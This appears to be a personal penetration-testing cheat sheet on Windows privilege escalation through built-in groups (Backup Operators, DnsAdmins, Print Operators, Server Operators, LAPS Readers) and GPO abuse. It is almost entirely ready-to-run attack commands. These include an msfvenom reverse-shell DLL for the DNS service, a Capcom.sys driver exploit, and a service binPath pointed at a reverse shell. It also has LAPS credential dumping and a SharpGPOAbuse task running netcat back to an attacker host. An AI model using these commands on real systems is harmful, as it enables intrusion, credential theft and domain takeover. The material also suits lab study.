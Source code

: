 ```cmd
whoami /groups
```
---
## Backup Operators group
Membership of this group grants its members the SeBackup and SeRestore privileges. The `SeBackupPrivilege` allows us to traverse any folder and list the folder contents.
```powershell
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll

PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege
SeBackupPrivilege is enabled

PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
PS C:\htb>  cat .\Contract.txt
```

OR
#backupoperators

---
## Event Log Readers group
Members of this group can read **Security Logs**!
```powershell
# Searching security logs
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword

# Passing credentials to run as another user
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
OR
```powershell
# Get-WinEvent requires administrator access or permissions adjusted on the registry key HKLM\System\CurrentControlSet\Services\Eventlog\Security
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

---
## DnsAdmins
https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.139.254 LPORT=4444 -f dll -o lol.dll
```
```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
sc stop dns
sc start dns
```

---
## Hyper-V Administrators
https://academy.hackthebox.com/module/67/section/604

---
## Print Operators
%% Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER". %%

Print Operators is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to *manage, create, share, and delete printers* connected to a Domain Controller, as well as the ability to *log on locally to a Domain Controller and shut it down*.
It's well known that the driver `Capcom.sys` contains functionality to allow any user to *execute shellcode with SYSTEM privileges*. We can use our privileges to load this vulnerable driver and escalate privileges.

 This exploit requires a privileged shell  
```powershell
# Verification
whoami /priv

Privilege Name                Description                          State
============================= ==================================  ==========
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
```

### Automated Exploit
https://github.com/TarlogicSecurity/EoPLoadDriver/

```cmd
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0

C:\htb> ExploitCapcom.exe
```


### Manual Exploit
https://academy.hackthebox.com/module/67/section/605

---
## Server Operators
The **Server Operators** group allows members to administer Windows servers without needing assignment of Domain Admin privileges.

https://academy.hackthebox.com/module/67/section/606
```cmd
sc config AppReadiness binPath= "cmd /c C:\Tools\rev_shell.exe"
sc start AppReadiness
```

---
## LAPS Readers
A user in LAPS Readers group can read local admin passwords
```powershell
# Confirm if LAPS is enabled
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

# Check if that folder exists and contains AdmPwd.dll
dir "C:\Program Files\LAPS\CSE"
```

**Credential Dumping**
```sh
# From Kali Linux
pyLAPS --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
lapsdumper -u fmcsorley -p CrabSharkJellyfish192 -d hutch.offsec
```

From Windows:
https://www.thehacker.recipes/a-d/movement/dacl/readlapspassword
https://www.hackingarticles.in/credential-dumpinglaps/

---
# GPO (Group Policy Objects)
![[Pasted image 20240602123300.png]]

```powershell
. .\powerview.ps1
Get-NetGPO
```
![[Pasted image 20240602123431.png]]
```powershell
## Method 1
# Execute Sharp.GPOAbuse.exe, below command execute in powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "test" --Author "Administrator" --Command "cmd.exe" --Arguments "/c c:\temp\nc.exe $KaliIP 80 -e cmd.exe" --GPOName "Default Domain Policy"

# At kali machine
rlwrap nc -nlvp 80

# At target machine, update the GPO changes
gpupdate /force
```

## Method 2 (If you have the permissions to change password)
https://youtu.be/pmaeQlFkFV0?feature=shared&t=1164

```powershell
./ShapGPOAbuse.exe --AddLocalAdmin --GPOName <GPONAME> --UserAccount <USERNAME>
gpupdate /force # On the target machine if you got normal access already
net localgroup administrators
```